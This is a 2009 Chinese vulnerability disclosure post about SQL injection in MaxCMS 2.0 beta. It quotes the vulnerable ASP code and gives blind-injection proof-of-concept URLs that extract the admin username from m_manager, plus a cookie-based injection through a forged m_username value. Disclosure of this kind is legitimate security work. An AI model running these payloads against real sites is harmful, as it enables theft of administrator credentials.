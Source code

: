 ```yaml
---
title: 马克斯CMS 2.0 beta (Maxcms)SQL注入漏洞
description: 马克斯CMS2.0beta(Maxcms)SQL注入漏洞关键字：首页-马克斯CMS2.0这个系统是国内非常流行的视频点播系统，之前的1.5版本漏洞非常多，2.0版本在安全方面有所提高，但是依然有漏洞存在。看代码......
date: 2009-02-02 09:46:23
category: 漏洞信息
tags: ['马克斯CMS', '注入', '漏洞信息']
post_id: 770
alias: Maxcms-2.0-beta-SQL-injection
ViewNums: 4065
---
```


[**马克斯CMS 2.0 beta (Maxcms)SQL注入漏洞**](/blog/maxcms-20-beta-sql-injection)

关键字：首页-马克斯CMS2.0

这个系统是国内非常流行的视频点播系统，之前的1.5版本漏洞非常多，2.0版本在安全方面有所提高，但是依然有漏洞存在。

看代码

incajax.asp

dim action : action = getForm("action", "get")
response.Charset="gbk"

Select  case action
    case "newslist" : viewNewsList
    case "newscontent" : viewNewsContent
    case "digg","tread" : scoreVideo(action)
    case "reporterr" : reportErr
    case "hit" : updateHit
    case else : main
End Select
terminateAllObjects

……

Sub scoreVideo(operType)
    dim sql,id,digg,returnValue : id=getForm("id","get")
    ‘通过get方式获取id的值
    if rCookie("maxcms2_score"&id)="ok" then die "havescore"
    if isNul(id) then die "err"
    'on error resume next
    digg=conn.db("select m_digg from {pre}data where m_id="&id,"execute")(0)
    ‘ 参数id，没有过滤就带入sql语句进行查询
    if err then digg=0 : err.clear()
    if not isNum(id) then echoSaveStr "safe" else id=clng(id)
    ‘ 查询到digg，注意返回的内容
……利用就很简单了，构造sql语句提交（默认结构是m_manager,m_username,m_pwd，根据返回的内容判断就可以了。如果构造的语句是正确的，就返回类似警告

你提交的数据有非法字符，你的IP【xxxx】已被记录,操作

构造的语句不正确，则返回500
Poc :

正确的:
http://demo.maxcms.net/inc/ajax.asp?action=digg&id=1%20and%20(select%20top%201%20asc(mid(m_username,1,1))%20from%20m_manager)=97

不正确的：
http://demo.maxcms.net/inc/ajax.asp?action=digg&id=1%20and%20(select%20top%201%20asc(mid(m_username,1,1))%20from%20m_manager)=99其实随便找个注射工具跑一下就ok了

另外一处注射

Sub checkPower
    dim loginValidate,rsObj : loginValidate = "maxcms2.0"
    err.clear
    on error resume next
    set rsObj=conn.db("select m_random,m_level from {pre}manager where m_username='"&rCookie("m_username")&"'","execute")
    loginValidate = md5(getAgent&getIp&rsObj(0))
    if err then wCookie "check"&rCookie("m_username"),"" : die "<script>top.location.href='index.asp?action=login';</script>"
    if rCookie("check"&rCookie("m_username"))<>loginValidate then wCookie "check"&rCookie("m_username"),"" : die "<script>top.location.href='index.asp?action=login';</script>"
    checkManagerLevel  rsObj(1)
    set rsObj=nothing
End Sub其中

Function rCookie(cookieName)
    rCookie = request.cookies(cookieName)
End Function通过伪造cookie中m_username的值可以进行注射

不过要知道后台管理目录，默认是/admin/，多个页面可以触发改函数
比如 /admin/admin_ajax.asp

作者：flyh4t
<http://bbs.wolvez.org>

